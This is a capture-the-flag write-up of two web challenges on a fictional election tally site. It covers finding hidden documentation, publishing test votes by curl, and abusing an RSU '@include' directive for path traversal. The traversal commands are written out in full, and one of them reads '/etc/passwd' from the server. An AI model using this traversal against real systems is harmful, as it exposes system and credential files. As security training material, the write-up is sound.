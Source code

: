 # This Things Rigged
In this challenge, we're provided with the URL to a "tallyroom" website, with live updates of a vote count in a fictional election. The description of the challenge mentions that the new system is "decentralized and distributed" but asks where to documentation for the system is.
### Who Are the Devs?
The challenge states that brute-forcing with `gobuster` or similar tools is not required, so we can assume that the website itself contains all the information required to find the documentation we're looking for. The website has several pages, with information on the parties, information the different states, and a news page with several articles. If we look at all the articles we can see the IDs are sequential, but the news page doesn't list all the articles available if we assume the numbering starts from 0. If we try and access the article with ID 0, we get some information on the website itself!
>This page about Freedonia's digital voting infrastructure is currently being developed. Our organization Freedonia Government Services' (the Freedonian government services directorate) is working hard to bring you comprehensive information about the technology that powers our democratic process.

So now we know the name of the developers of this website! If you finished *Log of Doom* you might have seen the GitHub `README` for the *Freedonia Vote Synchronization System*. The author of this information is the "Freedonia Government Services", the same name mentioned on the website, so this is likely the documentation we're looking for. Alternatively, we can just search GitHub users for "Freedonia Government Services" and find the account that way.
### Where is the Service?
At the time I completed the challenge, the URL hadn't been updated to the `sync.tallyroom.freedonia.vote` URL, so I needed to figure out where the URL myself. Eventually I noticed that the URL listed at the time was on the `sync.` subdomain, and trying this on the `tallyroom.freedonia.vote` URL let me find the server.
### Follow the Guide
Now that we have the documentation and the server URL, we can follow the instructions in the "Testing" section to connect to the service and publish some test votes.
```
dot@stuff:~$ curl https://sync.tallyroom.freedonia.vote/healthz
{"status":"ok"}
dot@stuff:~$ curl -N "https://sync.tallyroom.freedonia.vote/api/votes/subscribe/Izzi"
event:vote-update
data:{"ID":0,"CreatedAt":"0001-01-01T00:00:00Z","UpdatedAt":"0001-01-01T00:00:00Z","DeletedAt":null,"state_id":8,"party_id":1,"votes":58676,"percentage":16.00034904299501,"timestamp":"2025-07-30T19:22:10.005139622+10:00","update_source":"Izzi"}
```
With our subscription setup we can create our test file and publish it to the server.
```
dot@stuff:~$ echo "1,1,1000,50.0,Test Upload" > test.rsu
dot@stuff:~$ curl -X POST -F "file=@test.rsu" "https://sync.tallyroom.freedonia.vote/api/votes/publish/Izzi"

{"filename":
...
```
In our terminal with the subscription to the Izzi votes, we should see the following line appear:
```
event:vote-update
data:{"ID":0,"CreatedAt":"0001-01-01T00:00:00Z","UpdatedAt":"0001-01-01T00:00:00Z","DeletedAt":null,"state_id":1,"party_id":1,"votes":1000,"percentage":50,"timestamp":"2025-07-30T09:22:12.013399822Z","update_source":"SECEDU{h00k_th3_v0te}"}
```
# Digital Ballots
Now that we've found the documentation and the server, we can go on to complete the next challenge. The description doesn't provide much in the way of hints for this one, but if we go back to the documentation for the service we can find the existence of an `@include` directive for RSU files. This is probably relevant to the challenge, with the most likely use being local file inclusion.
### Trying an Include
To begin, let's try creating a simple RSU file with just an include directive and send it to the server.
```
dot@stuff:~$ echo "@include \"test.rsu\"" > test.rsu
dot@stuff:~$ curl -X POST -F "file=@test.rsu" "https://sync.tallyroom.freedonia.vote/api/votes/publish/Izzi"
{"error":"RSU parsing error: Line 1: include path outside input directory"}
```
Hmm, this error is a little odd because it's telling us that the path is outside the expected directory, rather than telling us the file doesn't exist. Let's try adding "include" to our path.
```
dot@stuff:~$ echo "@include \"input/test.rsu\"" > test.rsu
dot@stuff:~$ curl -X POST -F "file=@test.rsu" "https://sync.tallyroom.freedonia.vote/api/votes/publish/Izzi"
{"error":"RSU parsing error: Line 1: include path outside input directory"}
```
Same result. What about using an absolute path?
```
dot@stuff:~$ echo "@include \"/input/test.rsu\"" > test.rsu
dot@stuff:~$ curl -X POST -F "file=@test.rsu" "https://sync.tallyroom.freedonia.vote/api/votes/publish/Izzi"
{"error":"RSU parsing error: Line 1: failed to include /input/test.rsu: failed to open file /input/input/test.rsu: open /input/input/test.rsu: no such file or directory"}
```
Great! Now we know we have to include `/input/` at the start of our path, let's try some traversal and see if it works. 
### Finding the Flag
We can see from the path in the error message before that we should use `..` twice to get to the root path.
```
dot@stuff:~$ echo "@include \"/input/../../etc/passwd\"" > test.rsu
dot@stuff:~$ curl -X POST -F "file=@test.rsu" "https://sync.tallyroom.freedonia.vote/api/votes/publish/Izzi"
{"error":"RSU parsing error: Line 1: error in included file /input/../../etc/passwd: Line 1: insufficient columns - need at least 4, got 1: root:x:0:0:root:/root:/bin/bash"}
```
Perfect, we can traverse through the filesystem, and see part of the file we're trying to access. Now we can try and find the flag. The easiest place to look is the root directory so let's try there.
```
dot@stuff:~$ echo "@include \"/input/../../flag.txt\"" > test.rsu
dot@stuff:~$ curl -X POST -F "file=@test.rsu" "https://sync.tallyroom.freedonia.vote/api/votes/publish/Izzi"
{"error":"RSU parsing error: Line 1: error in included file /input/../../flag.txt: Line 1: insufficient columns - need at least 4, got 1: SECEDU{es0t3ric}"}%
```
First try! (Though not really.) Other places to try if the flag weren't there would be `/root`, `/app`, or just `flag` without the `.txt` extension.